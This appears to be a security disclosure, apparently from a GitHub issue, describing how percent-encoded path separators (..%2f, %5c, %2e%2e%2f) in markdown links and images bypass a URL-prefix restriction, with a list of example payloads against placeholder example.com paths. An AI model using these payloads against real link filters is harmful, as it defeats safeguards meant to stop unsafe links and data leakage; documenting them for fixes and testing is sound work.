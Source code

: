 # 🚨 CRITICAL: URL Encoding Bypasses - WORKING ATTACKS

## Root Cause: Encoder/Decoder Mismatch Vulnerability
The URL constructor doesn't decode percent-encoded path separators during normalization, but markdown parsers decode them during rendering, enabling path traversal bypasses.

## Working Bypasses:

### Forward Slash Encoding
[link](https://example.com/safe/..%2fattack)
![](https://example.com/safe/..%2fattack.png)

### Directory Name Encoding
[link](https://example.com/safe%2f..%2fattack)

### Mixed Case Encoding  
[link](https://example.com/safe/..%2F../attack)

### Backslash Encoding
[link](https://example.com/safe/..%5Cattack)
[link](https://example.com/safe/..%5c..%5cattack)

### Encoded Dots
[link](https://example.com/safe/%2e%2e%2fattack)

## Impact: Complete URL Restriction Bypass
These allow accessing any URL by path traversal, completely defeating the security model.
